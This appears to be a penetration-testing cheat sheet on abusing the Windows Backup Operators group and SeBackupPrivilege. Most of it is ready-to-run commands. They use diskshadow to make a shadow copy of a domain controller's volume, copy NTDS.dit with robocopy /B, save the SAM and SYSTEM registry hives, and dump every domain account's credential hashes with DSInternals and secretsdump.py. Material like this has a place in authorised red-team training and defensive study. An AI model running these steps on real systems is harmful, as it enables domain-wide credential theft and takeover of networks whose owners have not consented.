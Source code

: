 ### Approach to Exploiting Windows Built-in Groups (Focus: Backup Operators)

### Identify Group Memberships:
```powershell
whoami /groups  # Check if the user is in "Backup Operators"
```

### Verify SeBackupPrivilege:
```powershell
whoami /priv  # Check if SeBackupPrivilege is present
Get-SeBackupPrivilege  # PowerShell cmdlet
```

### Enable SeBackupPrivilege (if needed):
```powershell
Set-SeBackupPrivilege  # PowerShell cmdlet
```

### Import SeBackupPrivilege Modules:
```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

### Access Protected Files:
```powershell
dir <protected_directory>  # Verify lack of access
Copy-FileSeBackupPrivilege <protected_file> <destination>
robocopy /B <source> <destination> <file>
```

### Target Domain Controller (NTDS.dit):
```powershell
diskshadow.exe  # Create shadow copy
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
exit
```
```powershell
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit <destination>
robocopy /B E:\Windows\NTDS\ <destination> ntds.dit
```

### Backup Registry Hives:
```powershell
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

### Extract Credentials (NTDS.dit):
```powershell
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName <DN> -DBPath .\ntds.dit -BootKey $key
```
```bash
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

### Commands:
```powershell
whoami /groups
whoami /priv
diskshadow.exe
reg save
secretsdump.py
robocopy /B
dir
```

### PowerShell Cmdlets:
```powershell
Get-SeBackupPrivilege
Set-SeBackupPrivilege
Copy-FileSeBackupPrivilege
Import-Module .\DSInternals.psd1
Get-BootKey
Get-ADDBAccount
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

### Tools:
- `diskshadow.exe` (Windows built-in)
- `reg.exe` (Windows built-in)
- `secretsdump.py` (Impacket)
- `robocopy.exe` (Windows built-in)
- `DSInternals` (PowerShell module)
- `SeBackupPrivilegeUtils.dll` and `SeBackupPrivilegeCmdLets.dll` (Custom PowerShell modules)

### Techniques:
- Leverage `SeBackupPrivilege` to bypass file ACLs.
- Use `diskshadow` to create shadow copies of locked files.
- Extract credentials from `NTDS.dit` and registry hives.
- Use `robocopy` as an alternative to custom scripts.
